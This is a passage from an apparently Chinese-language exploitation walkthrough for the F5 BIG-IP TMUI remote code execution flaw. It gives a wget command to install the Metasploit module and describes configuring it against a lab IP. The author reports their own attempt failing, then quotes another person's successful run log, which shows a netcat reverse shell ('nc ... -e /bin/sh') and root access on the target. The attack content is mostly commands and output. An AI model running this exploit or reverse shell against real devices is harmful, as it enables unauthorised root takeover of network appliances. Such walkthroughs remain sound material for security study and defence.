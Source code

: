 ![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHxZZiczmz16kLicbC4iaBiaVXFVkEo2w45X1HjakYyBTkwPSCyibEicr7FjgA/640?wx_fmt=png "")  
  
之后下载攻击载荷到本地（需要科学上网，也可以直接下载文件复制到对应的目录）：  

```
wget -P /opt/metasploit-framework/embedded/framework/modules/exploits/linux/http/ https://raw.githubusercontent.com/rapid7/metasploit-framework/0417e88ff24bf05b8874c953bd91600f10186ba4/modules/exploits/linux/http/f5_bigip_tmui_rce.rb
```

  
![](https://mmbiz.qpic.cn/mmbiz_jpg/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHLeDEH9H5VOsEuJ2UQqCu6DIGNCX5VP9a1USj9vWKvZS1kayOyW81GA/640?wx_fmt=jpeg "")  
  
之后启动MSF并通过'reload_all'指令来重新加载MSF的modules，之后  
搜索f5_bigip你会看到可用的载荷信息：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHLfZwE94xLJKkHogV7ZroiaokFqWXxUU0c6WaKqjrxyM5JqPO3xKbuOw/640?wx_fmt=jpeg "")  
  
下面以192.168.174.214为例做一次利用演示，首先设置相关的配置项参数：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHPzbicBxb39MLyQlXJ75qibuDLKaibJwyFQxZsFttLV1ic94LsmqX6jV8AQ/640?wx_fmt=jpeg "")  
  
之后执行，很可惜，失败了，不知道是个人的环境原因还是什么问题(之前升级更新过msf)，后续查看过msf攻击脚本，感觉与环境依赖问题没多大关系，target也切换过UNix与Linux，但是也不行，之后也尝试过用admin用户先登录，结果依旧不行，不过，此路不通还有其他道路，使用python也挺好的~  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHMV5y70sRTSwJs5ViaxdfKBtjqBN9jMGjTpGSw7iaW5kyibMuYt66ELeyQ/640?wx_fmt=jpeg "")  
  
下面网上有关成功的人给出的执行结果：  

```
msf5 exploit(linux/http/f5_bigip_tmui_rce) > run


[+] nc 172.16.249.1 4444 -e /bin/sh
[*] Started reverse TCP handler on 172.16.249.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Target is running BIG-IP 14.1.2.
[*] Creating alias list=bash
[+] Successfully created alias list=bash
[*] Executing Unix Command for cmd/unix/reverse_netcat_gaping
[*] Executing command: nc 172.16.249.14444 -e /bin/sh
[*] Uploading /tmp/lxoQO9DPOSpDiF8rP5yNfc4dVo67qsckbdaNc3ES3
[+] Successfully uploaded /tmp/lxoQO9DPOSpDiF8rP5yNfc4dVo67qsckbdaNc3ES3
[*] Executing /tmp/lxoQO9DPOSpDiF8rP5yNfc4dVo67qsckbdaNc3ES3
[*] Command shell session 1 opened (172.16.249.1:4444 -> 172.16.249.176:44736) at 2020-07-0618:05:24-0500
[+] Deleted /tmp/lxoQO9DPOSpDiF8rP5yNfc4dVo67qsckbdaNc3ES3
[*] Deleting alias list=bash
[+] Successfully deleted alias list=bash


id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0
uname -a
Linux localhost.localdomain 3.10.0-514.26.2.el7.ve.x86_64 #1 SMP Wed Aug 7 08:16:38 PDT 2019 x86_64 x86_64 x86_64 GNU/Linux
```

